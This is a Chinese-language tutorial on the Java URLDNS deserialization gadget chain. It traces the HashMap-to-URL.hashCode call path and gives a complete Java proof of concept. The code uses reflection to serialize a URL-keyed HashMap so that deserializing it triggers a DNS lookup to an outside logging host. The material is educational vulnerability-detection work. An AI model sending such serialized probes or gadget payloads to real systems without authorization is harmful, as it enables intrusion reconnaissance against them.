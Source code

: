 # URLDNS利用链

## 前言

简而言之，URLDNS也就是 当HashMap的key传入为URL类型对象的话，这个URL对象就会执行URL类的hashCode()方法  ，从而触发DNS请求，通常用来探测是否存在反序列化漏洞

两条链子简介

```java
URL类-->hashCode()方法-->1.hashcode=!-1-->不执行DNS解析
                     -->2.hashcode=-1-->handler.hashCode()(hander为URLStreamHandler类对
                          象)-->getHostAddress(u)-->getByName(host)-->做一次DNS解析
HashMap类-->put(k,v)-->putVal()-->hash(k)-->k.hashCode()
```

## HashMap链子

打开HashMap源码，有个put(k,v)方法，用来传参，它会返回一个hash(key)

![image-20220906161101165](URLDNS利用链/image-20220906161101165.png)

查看hash()方法，它会返回一个hashCode()方法

![image-20220906161256328](URLDNS利用链/image-20220906161256328.png)

## URL链子

查看URL类源码，它也有一个hashCode()方法，所以当上述HashMap传入的key为URL对象，就会执行URL的hashCode()方法

![image-20220906161617632](URLDNS利用链/image-20220906161617632.png)

在该类中默认的hashCode值为-1，也就是默认执行handler.hashCode

![image-20220906161829360](URLDNS利用链/image-20220906161829360.png)

hander为URLStreamHandler类对象,hander对象的方法hashCode()下， 有getHostAddress(u)方法

![image-20220906162131913](URLDNS利用链/image-20220906162131913.png)

进一步查看getHostAddress(),看到有getByName(host)方法，因此就会在这块进行传值并DNS解析

![image-20220906162552947](URLDNS利用链/image-20220906162552947.png)

## 代码

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class UrlDns {
    public static void main(String[] args) throws MalformedURLException, IllegalAccessException, NoSuchFieldException {
        /**
         *
         * URL类-->hashCode()方法-->1.hashcode=!-1-->不执行DNS解析
         *                      -->2.hashcode=-1-->handler.hashCode()(hander为URLStreamHandler类对
         *                          象)-->getHostAddress(u)-->getByName(host)-->做一次DNS解析
         * HashMap类-->put(k,v)-->putVal()-->hash(k)-->k.hashCode()
         * HashMap类
         * 当HashMap的key传入为Url类型的话，k.hashCode()就会执行URL类的hashCode方法
         * hashCode对象默认为-1，也就是说传入的url会默认执行一次解析，为了验证是否存在反序列化存在，需要在反序列化之前不执行dns解析，
         * 因此需要通过反射将hashCode的v改为其他，再执行序列化与反序列化操作
         */
        HashMap<URL, Integer> hashmap = new HashMap<>();

        URL url = new URL("http://11e0086a.dns.1433.eu.org");

        Class urlClass = url.getClass();
        Field field = urlClass.getDeclaredField("hashCode");//得到URL类的hashCode字段（默认为-1）
        //getDeclaredFields：获取当前类的所有字段，包括 protected/默认/private 修饰的字段；不包括父类public 修饰的字段。

        field.setAccessible(true);
        field.set(url,3);//设置url的hashCode值为3

        hashmap.put(url,1);//

        field.set(url,-1);
        // int hashCode = url.hashCode();


        try{
            //序列化
            FileOutputStream fileOutputStream = new FileOutputStream("a.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            //反序列化
            FileInputStream fileInputStream = new FileInputStream("a.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();

        } catch (FileNotFoundException e) {
            throw new RuntimeException(e);
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }


    }




}
```

## 调试分析过程

利用反射将url的hashCode设置不为-1，这样就不会在序列化之前解析

![image-20220906151906069](URLDNS利用链/image-20220906151906069.png)

继续跟进，可以看到不进行解析

![image-20220906152525286](URLDNS利用链/image-20220906152525286.png)

继续跟进

![image-20220906152934562](URLDNS利用链/image-20220906152934562.png)

onlyIfAbsent-->说明只能进行一次解析，如果不修改hashCode的值 put在传值url的时候会默认进行dns解析

再通过反射设置`field.set(url,-1)`，hashCode的值为-1，下次在执行序列化与反序列化的操作时候就会判断是否解析

![image-20220906153119194](URLDNS利用链/image-20220906153119194.png)

接下来进行序列化操作，可以看到在进行反序列化执行readObject()之前都没有解析

![image-20220906154425332](URLDNS利用链/image-20220906154425332.png)

在readObject()执行后，DNS进行了解析，也就验证了存在反序列化漏洞

![image-20220906154704003](URLDNS利用链/image-20220906154704003.png)